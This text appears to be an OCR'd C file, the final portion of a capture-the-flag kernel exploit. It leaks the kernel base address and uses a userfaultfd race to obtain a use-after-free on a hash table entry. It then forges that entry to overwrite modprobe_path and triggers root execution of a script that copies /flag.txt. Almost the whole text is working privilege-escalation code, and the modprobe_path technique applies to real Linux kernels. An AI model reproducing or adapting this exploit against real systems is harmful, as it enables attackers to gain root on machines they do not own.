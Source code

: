```exploit.c
  const ulong shmem_vm_ops = ((ulong*)buf)[3];
  const ulong kernbase = shmem_vm_ops - ((ulong)0xffffffff8b622b80 - (ulong)0xffffffff8ae00000);
  const ulong modprobe_path = kernbase + ((ulong)0xffffffffb0c46fe0 - (ulong)0xffffffffb0200000);
  printf("[!] kernbase: 0x%lx\n", kernbase);
  printf("[!] modprobe_path: 0x%lx\n", modprobe_path);

  // race-2: retrieve hash_entry as value
  targetkey = threshold - 1;
  memset(buf, 'A', 0x20);
  for(int ix=SIZE_ARR_START * 3/4 + 1; ix!=threshold; ++ix){
    add_key(hashfd, ix, 0x20, buf);
  }
  register_userfaultfd_and_halt();
  add_key(hashfd, threshold, 0x20, uffdaddr);
  pthread_join(uffdthr, 0);
  for(int ix=threshold+1; 1==1; ++ix){ // find my cute object
    memset(buf, 'A', 0x20);
    add_key(hashfd, ix, 0x20, buf);
    get_value(hashfd, targetkey, 0x20, buf);
    if(((uint*)buf)[0] != 0x41414141){
      printf("[!] GOT kUAFed object!\n");;
      printf("[!] %lx\n", ((ulong*)buf)[0]);
      printf("[!] %lx\n", ((ulong*)buf)[1]);
      printf("[!] %lx\n", ((ulong*)buf)[2]);
      printf("[!] %lx\n", ((ulong*)buf)[3]);
      break;
    }
  }

  // forge hash_entry as data and overwrite modprobe_path
  struct hash_entry victim = {
    .key = ((uint*)buf)[0],
    .size = ((uint*)buf)[1],
    .value = modprobe_path,
    .next = NULL
  };
  update_value(hashfd, targetkey, 0x20, &victim);
  update_value(hashfd, ((uint*)buf)[0], 0x20, "/home/ctf/nirugiri.sh\x00\x00\x00\x00");

  // trigger modprobe_path
  system("echo -ne '#!/bin/sh\n/bin/cp /flag.txt /home/ctf/flag.txt\n/bin/chmod 777 /home/ctf/flag.txt' > /home/ctf/nirugiri.sh");
  system("chmod +x /home/ctf/nirugiri.sh");
  system("echo -ne '\\xff\\xff\\xff\\xff' > /home/ctf/puipui-molcar");
  system("chmod +x /home/ctf/puipui-molcar");
  system("/home/ctf/puipui-molcar");

  // NIRUGIRI it
  system("cat /home/ctf/flag.txt");

  return 0;
}
```
